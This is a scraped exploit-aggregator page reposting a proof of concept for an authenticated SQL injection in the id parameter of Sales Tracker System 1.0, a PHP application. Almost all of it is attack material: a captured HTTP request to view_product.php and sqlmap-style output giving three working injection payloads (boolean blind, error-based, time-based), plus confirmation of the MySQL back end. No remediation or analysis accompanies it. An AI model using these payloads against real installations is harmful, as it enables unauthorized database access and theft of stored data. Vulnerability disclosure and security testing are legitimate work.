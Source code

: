 ```yaml
---
title: Sales Tracker System 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38220&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-02-28
fetch_date: 2025-10-04T08:12:46.868658
---
```


# Sales Tracker System 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Sales Tracker System 1.0 SQL Injection Vulnerability

2023-02-27 | CVSS 0.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38220
# Exploit Title: Authenticated SQL Injection on Sales Tracker System
# Exploit Author: Ahmed Ismail (@MrOz1l)
# Vendor Homepage:
https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html
# Software Link: [download link if available]
# Version: 1.0
# Tested on: Windows 11

```

GET /php-sts/admin/products/view_product.php?id=5' HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0)
Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://localhost/php-sts/admin/?page=products
Cookie: PHPSESSID=tcc4d9ffr86hm2dqlfmos7amhg
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

# Payload
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=5' AND 3888=3888-- vxtB

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: id=5' OR (SELECT 7013 FROM(SELECT
COUNT(*),CONCAT(0x7162767671,(SELECT
(ELT(7013=7013,1))),0x7170717671,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ikkJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5' AND (SELECT 2482 FROM (SELECT(SLEEP(5)))dHEy)-- ehsZ
---
[15:47:48] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.54, PHP 8.0.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)